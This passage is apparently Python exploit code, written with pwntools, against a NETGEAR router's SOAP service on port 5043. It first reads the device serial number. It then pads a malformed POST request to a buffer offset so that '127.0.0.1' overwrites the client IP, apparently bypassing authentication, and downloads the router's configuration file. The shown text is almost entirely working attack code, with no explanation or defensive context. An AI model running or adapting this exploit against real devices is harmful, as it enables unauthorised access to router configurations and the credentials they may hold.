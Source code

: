 ```python
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <soap:Header>
    <SessionID>16DF8F8B8CBB9B1A1016</SessionID>
  </soap:Header>

  <soap:Body>
    <M1:GetInfo xsi:nil="true" />
      </soap:Body>
</soap:Envelope>'''

io.sendline(payload)

info = io.recvall().decode()
idx1 = info.index("<SerialNumber>")
idx2 = info.index("</SerialNumber>")
serial_number = info[idx1 + len("<SerialNumber>"): idx2]

io.close()

io = remote(IP, 5043, ssl = True)

payload3= f"POST lmao abcd "
IP_offset = 0x318c # offset from request buffer
payload3 = payload3 + " " * (IP_offset - len(payload3)) + "127.0.0.1\x00\n"

payload3 += '''Accept: text/xml
Accept: multipart/*
Accept: application/soap
User-Agent: SOAP::Lite/Perl/1.09
Content-Length: 577
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:NETGEAR-ROUTER:service:DeviceConfig:1#GetConfigInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope 
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:M1="urn:NETGEAR-ROUTER:service:DeviceConfig:1" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
    xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <soap:Header>
    <SessionID>16DF8F8B8CBB9B1A1016</SessionID>
  </soap:Header>
  <soap:Body>
      </soap:Body>
</soap:Envelope>

'''
io.send(payload3.encode())
buf = io.recvall().decode()
io.close()
idx1 = buf.index("<NewConfigFile>")
idx2 = buf.index("</NewConfigFile>")
# print(buf[idx1 + len("<NewConfigFile>"):idx2])

raw_config = buf[idx1 + len("<NewConfigFile>"):idx2]
f = open("router_config.cfg", "w")
f.write(raw_config)
f.close()

io.close()
```